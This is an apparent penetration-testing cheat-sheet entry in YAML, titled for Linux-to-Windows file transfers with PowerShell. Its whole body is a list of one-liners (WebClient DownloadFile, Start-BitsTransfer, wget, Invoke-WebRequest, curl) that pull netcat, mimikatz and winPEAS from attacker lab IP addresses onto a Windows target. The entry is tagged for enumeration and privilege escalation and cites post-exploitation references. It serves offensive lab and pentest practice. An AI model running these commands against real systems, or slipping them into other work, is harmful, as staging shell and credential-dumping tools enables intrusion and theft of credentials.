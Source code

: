 ```yaml
---
title: |
  File Transfers - Linux to Windows - Powershell
description: |
  Powershell Commands:

  	powershell.exe -c (new-object System.Net.WebClient).DownloadFile('http://10.10.14.17/nc.exe','c:\temp\nc.exe')

  	powershell.exe -c (Start-BitsTransfer -Source "http://10.10.14.17/nc.exe -Destination C:\temp\nc.exe")

  	powershell.exe wget "http://10.10.14.17/nc.exe" -outfile "c:\temp\nc.exe"

  	Invoke-WebRequest -Uri http://10.10.14.186/mimikatz.exe -OutFile mimikatz.exe

  	curl http://10.10.14.17/winPEASx64.exe -o winpeas.exe

  	iwr http://192.168.119.203/test.pdf -OutFile test.pdf

command: |
  See commands.
items:
  - Shell
OS:
  - Windows
attack_types:
  - Enumeration
  - PrivEsc
references:
  - https://book.hacktricks.xyz/generic-methodologies-and-resources/exfiltration
  - https://isroot.nl/2018/07/09/post-exploitation-file-transfers-on-windows-the-manual-way/
---
```

